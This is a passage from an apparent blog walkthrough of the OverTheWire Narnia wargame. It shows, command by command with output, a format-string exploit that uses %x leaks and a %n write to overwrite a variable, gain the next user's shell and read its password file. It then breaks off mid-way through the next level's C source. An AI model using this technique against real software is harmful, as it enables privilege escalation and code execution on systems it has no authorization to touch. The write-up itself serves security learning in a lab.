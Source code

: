This seems to be a beginner formatstring exploit - the `snprintf` isn't
vulnerable to overflow here since `sizeof` is evaluated at compile time so it
can't be manipulated like `strlen`. Luckily, this program provides us with some
helpful output if we fail to get a shell. Let's start by feeding it some `%x`s.

{% highlight bash %}
narnia5@melinda:/narnia$ ./narnia5 `python -c 'print "AAAA"+"%x."*5'`
Change is value from 1 -> 500. No way...let me give you a hint!
buffer : [AAAAf7eb7746.ffffffff.ffffd6ae.f7e2fc34.41414141.] (49)
i = 1 (0xffffd6cc)
{% endhighlight %}

Great, so we know the `snprintf` is vulnerable since we're leaking memory
values, we know we get back to the beginning of our buffer `0x41414141` after 5
`%x`s, and we know the address of `i` that we want to write to. If we insert
the address of `i` at the beginning and replace the last `%x` with a `%n`, we
should be able to write to `i`.

{% highlight bash %}
narnia5@melinda:/narnia$ ./narnia5 `python -c 'print "\xcc\xd6\xff\xffAAAA"+"%x."*4+"%n"'`
Change is value from 1 -> 500. No way...let me give you a hint!
buffer : [��AAAAf7eb7746.ffffffff.ffffd6ae.f7e2fc34.] (44)
i = 44 (0xffffd6cc)
{% endhighlight %}

Awesome, so now it's just a matter of reading the right number of characters
before `%n` to set the value of `i` to 500. Adjusting the last `%x`, we can set
`i` and get the password.

{% highlight bash %}
narnia5@melinda:/narnia$ ./narnia5 `python -c 'print "\xcc\xd6\xff\xffAAAA"+"%x."*3+"%465x%n"'`
Change is value from 1 -> 500. GOOD
$ id   
uid=14005(narnia5) gid=14005(narnia5) euid=14006(narnia6) groups=14006(narnia6),14005(narnia5)
$ cat /etc/narnia_pass/narnia6
XXXXXXXXXX
{% endhighlight %}

## Level6 &rarr; Level7 {#level7}

{% highlight c %}
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

extern char **environ;

// tired of fixing values...
// - morla
unsigned long get_sp(void) {
        __asm__("movl %esp,%eax\n\t"
                        "and $0xff000000, %eax"
               );
}

int main(int argc, char *argv[]){
        char b1[8], b2[8];
        int  (*fp)(char *)=(int(*)(char *))&puts, i;

        if(argc!=3){ printf("%s b1 b2\n", argv[0]); exit(-1); }

        /* clear environ */
        for(i=0; environ[i] != NULL; i++)
                memset(environ[i], '\0', strlen(environ[i]));
        /* clear argz    */
        for(i=3; argv[i] != NULL; i++)
                memset(argv[i], '\0', strlen(argv[i]));


[Narnia]: http://overthewire.org/wargames/narnia/
[OverTheWire]: http://overthewire.org
[pwntools]: https://github.com/Gallopsled/pwntools